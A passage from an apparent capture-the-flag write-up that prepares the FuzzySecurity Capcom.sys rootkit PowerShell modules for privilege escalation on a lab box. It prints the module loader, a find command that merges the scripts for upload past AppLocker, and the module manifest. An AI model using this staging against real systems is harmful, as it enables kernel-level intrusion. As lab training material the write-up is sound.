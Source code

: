 [This post](http://www.fuzzysecurity.com/tutorials/28.html) (and the embedded videos) do a really nice job showing the vulnerability and how it is abused. In Fuse, I used an exe to run this exploit, but I’ve already shown I can’t upload `.exe` files to the box due to AppLocker. There’s also a Metasploit module to exploit this as well, which I’ll show later in an alternative path.

#### Prep PowerShell

I’ll grab [this repo](https://github.com/FuzzySecurity/Capcom-Rootkit) from the blog post above, and it has a bunch of `.ps1` scripts, with `.psd1` and `.psm1` files that pull them all together. `Capcom.psm1` is very simple:

```

# Compatibility for PS v2 / PS v3+
if(!$PSScriptRoot) {
	$Global:PSScriptRoot = Split-Path $MyInvocation.MyCommand.Path -Parent
}

# OS version
$OSVersion = [Version](Get-WmiObject Win32_OperatingSystem).Version
[double]$Global:OSMajMin = "$($OSVersion.Major).$($OSVersion.Minor)"

# Import all modules
Get-ChildItem -Recurse $PSScriptRoot | % { if ($_.FullName -Like "*.ps1") { Import-Module $_.FullName -DisableNameChecking } }

```

It sets the `$OSVersion` variable and then pulls in all the `.ps1` files into the current session.

I don’t want to upload all of these individually to Fighter, so I’ll and combine them all into a single file:

```

oxdf@hacky$ find . -name "*.ps1" -exec cat {} \; -exec echo \; > capcom-all

```

This takes all the PowerShell functions, and puts them into one file that hopefully I can load into my session and then call. It’s important to have the second `exec` to put a new line after each file, otherwise some of them will overlap and make invalid PowerShell. I’ll also name the output `capcom-all` and not `capcom-all.ps1`, or else `find` will match on that output file and crash.

The `Capcom.psd1` file shows how the module is loaded:

```

 
@{
# Script module or binary module file associated with this manifest.
ModuleToProcess = 'Capcom.psm1'

# Version number of this module.
ModuleVersion = '0.0.0.1'

# ID used to uniquely identify this module
GUID = 'd34db33f-f3e7-417d-8735-e624dd62e7c8'

# Author of this module
Author = 'Ruben Boonen'

# Copyright statement for this module
Copyright = 'BSD 3-Clause'

# Description of the functionality provided by this module
Description = 'Rootkit POC based on signed Capcom.sys driver!'

```